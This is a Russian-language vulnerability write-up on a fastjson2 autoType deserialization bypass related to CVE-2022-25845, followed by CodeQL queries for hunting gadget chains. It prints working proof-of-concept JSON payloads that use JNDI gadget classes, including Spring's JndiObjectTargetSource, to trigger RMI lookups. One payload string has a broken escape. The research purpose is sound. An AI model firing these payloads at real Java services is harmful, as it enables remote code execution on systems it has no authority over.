 **CVE-2022-25845 (fastjson2 exnted) (Маджуга Богдан Андреевич)**

**Описание:**

В статье https://paper.seebug.org/3017/ автор рассматривает библиотеку fastjson2** на наличие уязвимсотей ее предшественника fastjson. В качестве уязвимости автор выбрал уязвимость отнаследованную от CVE-2022-25845, которая работала на fastjson версии *1.2.25-1.2.41*. В качестве таргета автор рассматривает fastjson2 версии *2.0.38*.


Первоначально автор пробует запустить уязвимый код напрямую из старой версии:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName":\"rmi://127.0.0.1:8085/xxx\",\"AutoCommit\":\"false\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

Как и ожидалось уязвимость не сработала, по причине того, что теперь fastjson2 блокирует выполнение checkAutoType в случае если класс связан с DataSourceName. 

```
  if (ClassLoader.class.isAssignableFrom(clazz) || JDKUtils.isSQLDataSourceOrRowSet(clazz)) {
        throw new JSONException("autoType is not support. " + typeName);
  }
```

Автор предлагает легкий способ обхода данной уязвимости используя другой тип сериализуемого объекта:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lorg.apache.xbean.propertyeditor.JndiConverter;\",\"asText\":\"rmi://127.0.0.1:8089/test\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

При этом автор уточняет, что для данного взлома необходима отдельная зависимость, что делает ее менее критичной:

```
<dependency> 
  <groupId>org.apache.xbean</groupId> 
  <artifactId>xbean-reflect</artifactId> 
  <version>4.15</version>
</dependency>
```

Однако, автор нашел способ вызвать аналогичную уязвимость используя популярный фреймворк Spring, что вызывает необходимость к исправлению найденной уязвимости.

```
String poc3 = "{\n" +
                "    \"@type\":\"Lorg.springframework.jndi.JndiObjectTargetSource;\",\n" +
                "    \"jndiName\": \"rmi://127.0.0.1:12312/Exp\",\n" +
                "    \"jndiTemplate\": {\n" +
                "        \"@type\":\"org.springframework.jndi.JndiTemplate\",\n" +
                "        \"environment\": {\n" +
                "            \"java.naming.factory.initial\": \"com.sun.jndi.rmi.registry.RegistryContextFactory\"\n" +
                "        }\n" +
                "    }\n" +
                "}";

JndiObjectTargetSource o = (JndiObjectTargetSource) JSON.parse(poc3, JSONReader.Feature.SupportAutoType);
o.getTarget();
```

**Причины уязвимости:**

Основная причина уязвимости заключается в том, что библиотека fastjson умеет сериализовать JSON строку сразу в объект с указанным типом *@type (JSONReader.Feature.UseNativeObject)*. При этом установка аттрибута происходит через setter методы, которые ищутся по принципу ```name.startsWith("set")``` не обращая внимание на наличие аттрибута с искомым названием. Таким образом появляется возможность вызывать методы принимающие строку на вход, смотри пример:

```
package org.example;

public class DemoObject {
    public String fieldA;
    public String fieldB;

    public void setFieldA(String fieldA) {
        this.fieldA = fieldA;
    }

    public void setFieldC(String fieldC) {
        System.out.println("Setting field C: " + fieldC);
    }
}
```

Тогда следующие код:

```
    public static void main(String[] args) {
        String poc = "{\"@type\":\"org.example.DemoObject\",\"fieldA\":\"hello A\", \"fieldB\":\"hello B\", \"fieldC\":\"hello C\"}";
        DemoObject obj = (DemoObject) JSON.parse(poc,
                JSONReader.Feature.SupportAutoType);
        System.out.println(obj.fieldA);
    }
```

Приводит к следующему выводу в консоль:

```
Setting field C: hello C
hello A
```

Как мы видем аргумент fieldB не был установлен по причине отсутсвия setter-a, а метод setFieldC - был вызван несмотря на отсутствие соответствующего аттрибута.

**QLInspector**

Проанализиурем данную уязвимость используя библиотеку QLInspector. Будем использовать стандартный запрос:

```
import java
import libs.DangerousMethods
import libs.Source


private class DangerousExpression extends Expr {
  DangerousExpression() {
    ( this instanceof Call and this.(Call).getCallee() instanceof DangerousMethod ) or
    ( this instanceof LambdaExpr and this.(LambdaExpr).getExprBody().(MethodAccess).getMethod() instanceof DangerousMethod)
  }
}

private class CallsDangerousMethod extends Callable {
  CallsDangerousMethod(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this)
  }
}

private class RecursiveCallToDangerousMethod extends Callable {
  RecursiveCallToDangerousMethod(){

    not this instanceof Sanitizer and

    /*
    /* can be commented for more results
    */
    (
      getDeclaringType().getASupertype*() instanceof TypeSerializable or
      this.isStatic()
    )

    and

    (
     this instanceof CallsDangerousMethod or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe))
    )
  }

    /*
    /* linking a RecursiveCallToDangerousMethod to a DangerousExpression
    */
    DangerousExpression getDangerousExpression(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this and result = de ) or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe) and result = unsafe.(RecursiveCallToDangerousMethod).getDangerousExpression())
    }
}


/*
*
* global filter to block function in the chain,
* method names can be added when you found a false positive
*
*/
private class Sanitizer extends Callable {
  Sanitizer(){
    hasName([""])
  }
}


query predicate edges(ControlFlowNode node1, ControlFlowNode node2) {
    (node1.(MethodAccess).getMethod().getAPossibleImplementation() = node2 and node2 instanceof RecursiveCallToDangerousMethod) or
    (node2.(MethodAccess).getEnclosingCallable() = node1 and node1 instanceof RecursiveCallToDangerousMethod)
}

predicate hasCalls(RecursiveCallToDangerousMethod c0, RecursiveCallToDangerousMethod c1) {
    c0.polyCalls(c1) or exists(RecursiveCallToDangerousMethod unsafe | c0.polyCalls(unsafe) and hasCalls(unsafe, c1))
}

from Callable source, Callable sink
where 
  sink instanceof CallsDangerousMethod and
  source.polyCalls(sink) and
  sink.getFile().toString().regexpMatch("ObjectReaderImplObject")
select source, sink, sink.getFile()
```

В результате было найденно около 138 только по заданному файлу, что не представляется возможным для проведения анализа. Необходимо искать более точечно, в само место уязвимости. Также стоит отметить, что данная уязвимость все еще есть в последней версии fastjson2.

Использование appsec для поиска причины poc в OpenJDK

```
/**
 * @kind path-problem
 */

 import java

 class StartMethod extends Method {
   StartMethod() { getName().matches("set%") }
 }
 
 class TargetMethod extends Method {
   TargetMethod() { getName() = "lookup" and this.getDeclaringType().toString() = "DataSource" }
 }
 
 query predicate edges(Method a, Method b) { a.calls(b) }
 
 from TargetMethod end, StartMethod entryPoint
 where edges+(entryPoint, end)
 select end, entryPoint, end, entryPoint.getFile().toString()
 ```

